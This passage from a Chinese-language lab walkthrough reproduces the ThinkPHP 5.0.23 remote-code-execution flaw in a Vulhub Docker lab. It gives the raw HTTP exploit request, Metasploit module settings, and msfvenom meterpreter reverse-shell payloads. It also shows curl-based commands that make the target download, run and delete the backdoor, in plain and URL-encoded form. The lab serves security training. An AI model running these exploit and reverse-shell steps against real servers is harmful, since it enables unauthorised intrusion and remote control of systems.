msf6 exploit(multi/handler) > set lhost kali.local
```

设置 lport

```
msf6 exploit(multi/handler) > set lport 6666
```

> 4444 端口被 nc 占用。

运行

```
msf6 exploit(multi/handler) > run
```

生成 payload

```
┌──(root㉿kali)-[~]
└─# msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=kali.local lport=6666 -f elf -o /var/www/html/nc2msf6666
```

启动 Web 服务

```
┌──(root㉿kali)-[~]
└─# systemctl start apache2.service
```

在 nc 中控制目标执行命令下载 payload

```
curl -so /tmp/nc2msf6666 http://kali.local/nc2msf6666;chmod +x /tmp/nc2msf6666;/tmp/nc2msf6666;rm -f /tmp/nc2msf6666
```

> 下载 reverse_tcp_shell
>
> 添加执行权限
>
> 执行
>
> 删除
> 

### 2.6 thinkphp

### 2.6.1[ThinkPHP5 5.0.23 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/thinkphp/5.0.23-rce/README.zh-cn.md)

**环境配置**

列出 thinkphp 漏洞

```
[root@centos 5.0.23-rce]# ls /root/vulhub/thinkphp
2-rce  5.0.23-rce  5-rce  in-sqlinjection  lang-rce
```

切换到靶场目录

```
[root@centos ~]# cd /root/vulhub/thinkphp/5.0.23-rce/
```

启动环境

```
[root@centos 5.0.23-rce]# docker-compose up -d
```

查看靶场的访问地址

```
[root@centos 5.0.23-rce]# cat docker-compose.yml
version: '3'
services:
 web:
   images: vulhub/thinkphp:5.0.23
   ports:
    - "8080:80"		“8080是虚拟机端口，80是 Docker 端口”
```

查看启动的环境

```
[root@centos 5.0.23-rce]# docker-compose ps
```

访问

> http://debian:8080

查看复现文档

```
[root@centos ~]# cat /root/vulhub/thinkphp/5.0.23-rce/README.zh-cn.md
```

```
POST /index.php?s=captcha HTTP/1.1
Host: centos.local
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

> 在 Windows 用 Typora 查看效果更佳

**漏洞验证**

**Curl**

使用 curl 命令访问漏洞链接，并执行命令

```
┌──(root㉿kali)-[~]
└─# curl http://debian:8080/index.php?s=captcha -d "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id" |head -n 1
```


> 此命令也可用于外网的漏洞验证

**BurpSuite**

在 Kali 中启动 BurpSuite


使用临时项目配置

.png)

.png)

调整下界面字体大小


设置 HTTP 消息显示的字体大小


数据包复制到 Repeater 模块中，配置目标

```
POST /index.php?s=captcha HTTP/1.1
Host: centos.local:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```


> 不能有多余的空行。

发送数据包，得到响应


**渗透测试**

**自动**

运行 MSF（记得关闭 BurpSuite，避免占用端口）

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

查询 thinkphp 相关的漏洞

```
msf6 > search thinkphp
```

查看模块的详细信息

```
msf6 >  info 0
```


> 此模块支持 thinkphp 5.0.23 rce

加载 thinkphp_rce 模块

```
msf6 > use 0
```

显示 thinkphp_rce 选项

```
msf6 exploit(unix/webapp/thinkphp_rce) > show options
```

设置 rhosts

```
msf6 exploit(unix/webapp/thinkphp_rce) > set  rhosts centos.local
```

设置 rport

```
msf6 exploit(unix/webapp/thinkphp_rce) > set rport 8080
```

设置 lhost

```
msf6 exploit(unix/webapp/thinkphp_rce) > set lhost kali.local
```

设置 lport

```
msf6 exploit(unix/webapp/thinkphp_rce) > set lport 4444
```

设置 srvhost

```
msf6 exploit(unix/webapp/thinkphp_rce) > set srvhost kali.local
```

设置 srvport

```
msf6 exploit(unix/webapp/thinkphp_rce) > set srvport 8080
```

运行 thinkphp_rce

```
msf6 exploit(unix/webapp/thinkphp_rce) > run
```


>MSF 会先生成一个反弹 shell 的可执行程序
>
>启动 8080 端口让目标主机可以访问下载这个程序
>
>通过漏洞执行命令：下载程序→添加执行权限→执行程序→删除文件

> 在目标主机执行这个可执行程序之后反弹 shell 给 MSF。

**手动**

生成后门

```
┌──(root㉿kali)-[~]
└─# msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=kali.local lport=4444 -f elf -o /var/www/html/reverse_tcp_shell
```

> 将生成的文件放至 /var/www/html/reverse_tcp_shell 确保 目标机能访问到（不适用于外网）

启动 web 服务

```
┌──(root㉿kali)-[~]
└─# systemctl start apache2.service
```

确认文件

```
┌──(root㉿kali)-[~]
└─# ls /var/www/html/
index.html  index.nginx-debian.html  reverse_tcp_shell
```

启动 msf

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

加载监听模块

```
msf6 > use exploit/multi/handler
```

显示 handler 选项

```
msf6 exploit(multi/handler) > show options
```

设置 payload

```
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter_reverse_tcp
```

> 要与后门使用的 payload 一致

设置监听主机

```
msf6 exploit(multi/handler) > set lhost kali.local
```

设置监听端口

```
msf6 exploit(multi/handler) > set lport 4444
```

运行

```
msf6 exploit(multi/handler) > run
```

编辑漏洞命令

```
curl http://debian:8080/index.php?s=captcha -d "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=curl -so /tmp/reverse_tcp_shell http://kali.local/reverse_tcp_shell;chmod +x /tmp/reverse_tcp_shell;/tmp/reverse_tcp_shell;rm -f /tmp/reverse_tcp_shell"
```

用 BurpSuite 对漏洞进行 url 编码


```
curl http://debian:8080/index.php?s=captcha -d "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=%63%75%72%6c%20%2d%73%6f%20%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%20%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%36%2e%32%34%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%3b%63%68%6d%6f%64%20%2b%78%20%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%3b%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%3b%72%6d%20%2d%66%20%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c"
```

渗透成功



切换到靶场目录

```
[root@centos ~]# cd /root/vulhub/thinkphp/5.0.23-rce/
```

关闭环境

```
┌──(root㉿kali)-[~]
└─# docker-compose down
```

---

References

- [Vulhub](https://vulhub.org/)
